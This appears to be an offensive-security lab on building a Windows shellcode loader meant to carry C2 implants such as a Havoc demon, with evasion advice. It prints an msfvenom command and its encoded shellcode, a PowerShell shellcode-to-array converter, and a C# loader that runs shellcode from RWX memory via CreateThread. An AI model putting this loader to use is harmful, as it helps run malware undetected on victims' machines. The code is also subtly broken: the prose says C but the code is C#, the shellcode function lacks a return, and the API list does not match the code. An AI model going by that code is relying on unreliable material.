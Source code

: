 # Lab - Basic Loader

> ***IMPORTANT***: Do not submit any of the training's code to VirusTotal!!!

> When building a shellcode loader, you can use any coding language, c, c++, c#, powershell, rust, golang and so on. In general, detection rates for languages like golang, rust and nim are lower, they are much harder to analyze and reverse than standard c or c# code. In this training we''l be using C as our language, as it is a low level programming language (no CLR that does JIT compiling like with C# or powershell), remember most windows API functions are written in C/C++ as well.

## Advantages of Using C on Windows

### Direct Access to Windows API:
- Native integration with core Windows features like process management, file I/O, and security.
- Low-level control over kernel objects, memory, and hardware for system-level tasks.

### High Performance:
- Extremely fast and efficient due to minimal runtime overhead.
- No garbage collection, allowing full control over memory and reducing latency.

### Portability and Compatibility:
- Backward compatibility with older Windows versions.
- Portable language that can be adapted for other operating systems with adjustments.

### Small Footprint:
- Lightweight programs with smaller memory and disk usage, ideal for resource-limited scenarios.

### Extensive Tooling and Libraries:
- Access to the Windows SDK, C headers, and libraries optimized for Windows development.
- Support for third-party C libraries like OpenSSL and SQLite.

### Control Over System Resources:
- Fine-grained memory management (e.g., `malloc`, `free`) for optimization.
- Direct use of Windows threading and synchronization APIs for efficient multitasking.

Generate havoc shellcode/helloworld dialog

>***EXPLAIN P/INVOKE - D/INVOKE:***
PINVOKE 
> 
> https://pinvoke.net/
> 
> https://github.com/TheWover/DInvoke


On Kali
```
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE"  -f csharp -b '\x00\x0a\x0d\x20' 
```

```
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 367 (iteration=0)
x64/xor chosen with final size 367
Payload size: 367 bytes
Final size of csharp file: 1896 bytes
byte[] buf = new byte[367] {0x48,0x31,0xc9,0x48,0x81,0xe9,
0xd7,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,0xff,0xff,0x48,
0xbb,0x24,0x95,0x1f,0xa0,0x28,0x38,0x25,0xc8,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xd8,0xdd,0x9e,
0x44,0xd8,0xc7,0xda,0x37,0xcc,0x59,0x1f,0xa0,0x28,0x79,0x74,
0x89,0x74,0xc7,0x4e,0xf6,0x60,0x09,0xf7,0xad,0x6c,0x1e,0x4d,
0xc0,0x60,0xb3,0x77,0xd0,0x6c,0x1e,0x4d,0x80,0x65,0x09,0xec,
0x80,0x2b,0x22,0x55,0xea,0x60,0xb3,0x57,0x98,0x6c,0xa4,0xdf,
0x0c,0x14,0x59,0x59,0xca,0x08,0xb5,0x5e,0x61,0xe1,0x35,0x64,
0xc9,0xe5,0x77,0xf2,0xf2,0x69,0x69,0x6d,0x43,0x76,0xb5,0x94,
0xe2,0x14,0x70,0x24,0x18,0x42,0x14,0x67,0xb8,0x23,0x3a,0x2a,
0x4d,0x56,0x95,0x1f,0xa0,0xa3,0xb8,0xad,0xc8,0x24,0x95,0x57,
0x25,0xe8,0x4c,0x42,0x80,0x25,0x45,0x5b,0x2b,0x68,0x18,0xae,
0x80,0x3c,0xdc,0x1e,0x70,0x78,0xdb,0x73,0x80,0xdb,0x5c,0x52,
0x91,0xe1,0x79,0xae,0xfc,0xac,0xdd,0x1e,0x76,0x60,0x09,0xe5,
0x89,0xe5,0x5c,0x12,0x0c,0x69,0x39,0xe4,0xf0,0xc4,0xe0,0xee,
0xec,0x2b,0x74,0x01,0xc0,0x61,0xac,0xce,0xd5,0xf0,0x60,0x61,
0x43,0x64,0xb1,0x56,0xa1,0xf8,0x5e,0x64,0x43,0x28,0xdd,0x5b,
0x2b,0x68,0x24,0x6c,0xc9,0xf4,0xd4,0x94,0xa4,0xa0,0x79,0x7d,
0x89,0x7c,0xcb,0x46,0xe8,0x29,0xe8,0x7f,0x89,0x7c,0xd4,0x46,
0xe1,0x72,0x70,0xa6,0x24,0x04,0xd4,0x4d,0x5f,0xc8,0x60,0x64,
0x91,0x7e,0xdd,0x94,0xb2,0xc1,0x73,0xda,0x37,0xdb,0xc8,0xf7,
0xab,0x28,0x38,0x25,0xbd,0x57,0xf0,0x6d,0x93,0x1a,0x16,0x41,
0xa4,0x48,0x95,0x46,0xe1,0x92,0x74,0x52,0xee,0x23,0x6a,0xca,
0xe9,0xef,0xf9,0x25,0xc8,0x24,0x95,0xf7,0xb8,0x28,0x38,0x25,
0x9b,0x51,0xf6,0x7c,0xc5,0x5b,0x4b,0x43,0xbd,0x48,0xb5,0x5a,
0xd8,0x4d,0x5b,0x50,0xbc,0x4d,0xfa,0x71,0x80,0x12,0x11,0x25,
0x92,0xcc,0x99,0x1f,0xa0,0x28,0x7b,0x57,0xa1,0x49,0xe6,0x70,
0xce,0x6b,0x77,0x77,0x8d,0x24,0xd4,0x47,0xe8,0x19,0xf1,0x64,
0x72,0x61,0x16,0x49,0xa7,0xd7,0xed,0x6d,0xf9,0xed,0xd4,0xa5,
0x50,0x9d,0x9a,0x73,0x37,0xf1,0x95,0x1f,0xa0,0x28,0x38,0x25,
0xc8};
```

```
xxd --canonical meterpreter.exe | more  
```

Note on compiling:

![Screenshot](./images/assemblyinformation.jpg)

Convert the shellcode to a CSharp array:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

Load this shellcode into you basic loader template:

```CSHARP
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentProcess();

        static void Main()
        {
            // (1) retrieve shellcode from function
            byte[] shellCode = GetShellcode();

            // Print the shellcode to the screen
            Console.WriteLine("Shellcode: " + BitConverter.ToString(shellCode));

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory using WriteProcessMemory
            IntPtr bytesWritten;
            bool result = WriteProcessMemory(GetCurrentProcess(), funcAddr, shellCode, (uint)shellCode.Length, out bytesWritten);

            if (!result)
            {
                Console.WriteLine("Failed to write shellcode to memory.");
                return;
            }

            Console.WriteLine($"Successfully wrote {bytesWritten} bytes to memory.");

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }

        // Function to return the shellcode
        private static byte[] GetShellcode()
        {
            0x56,0x48,0x89,0xe6,...
        };
        }
    }
}
```

To build our own shellcode loader we need 4 functions:

VirtualAlloc (Kernel32.dll)
CreateRemoteThread (Kernel32.dll)
MarshallCopy
WaitForSingleObject (Kernel32.dll)

